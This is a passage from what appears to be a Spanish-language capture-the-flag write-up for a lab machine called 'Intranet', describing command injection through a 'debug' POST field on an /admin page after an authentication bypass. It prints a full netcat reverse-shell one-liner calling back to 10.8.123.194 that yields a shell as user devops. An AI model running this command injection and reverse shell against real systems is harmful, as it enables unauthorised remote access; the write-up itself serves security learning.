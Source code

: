 ![](/assets/images/Intranet/image101.png)

Una vez que logramos omitir la autenticación siendo el usuario admin, podremos acceder a la sección Admin, y si observamos el código fuente de esta pagina web, nos damos cuenta de que esta ruta acepta solicitudes POST HTTP. Además, al parecer en el cuerpo esta solicitud POST va constar de un campo (de un formulario HTML) llamado debug, y se va utilizar el valor de este campo para ejecutar un comando en el sistema operativo del sistema destino. Aprovecharemos esto para realizar una solicitud POST en la ruta /admin, y con el campo debug igual a un comando `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.123.194 1500 >/tmp/f` , que nos generara una reverse Shell.

![](/assets/images/Intranet/image103.png)

![](/assets/images/Intranet/image105.png)

Podemos observar que el comando pasado al campo debug utiliza la codificación URL debido a que no logre obtener la reverse shell en su formato normal. De esta manera logre obtener acceso al sistema destino siendo el usuario devops.
